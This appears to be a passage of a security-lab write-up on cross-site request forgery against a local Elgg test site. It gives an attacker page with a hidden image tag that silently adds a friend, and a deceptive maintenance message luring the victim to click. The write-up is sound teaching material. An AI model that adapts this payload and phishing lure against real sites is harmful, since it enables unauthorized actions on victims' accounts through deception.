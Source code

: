 ### Setting Up the Attack Page

In `/var/www/CSRF/Attacker/`, create a file named `index.html` with the following content:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dear Alice</title>
    <body>
        <h1>Dear Alice</h1>
        <p>You are now friends with Boby!</p>
        <img src="http://www.csrflabelgg.com/action/friends/add?friend=43" alt="img" style="display:none;" />
        <a href="http://www.csrflabelgg.com">Click here to go back to Elgg</a>
    </body>
</html>
```

### Launching the Attack

Login as Boby and send the following direct message to Alice:

```html
Dear Alice,

Elgg will be down for maintenance for a few minutes. Don't worry, everything will be back to normal soon. In the meantime, you can get a sneak peek of the new features by clicking the link below:

http://www.csrflabattacker.com

Best regards,
Boby
```

Now log in as Alice and click the link. This will trigger a GET request to add Boby as a friend without any interaction from Alice.

![](images/2-3-2.png)

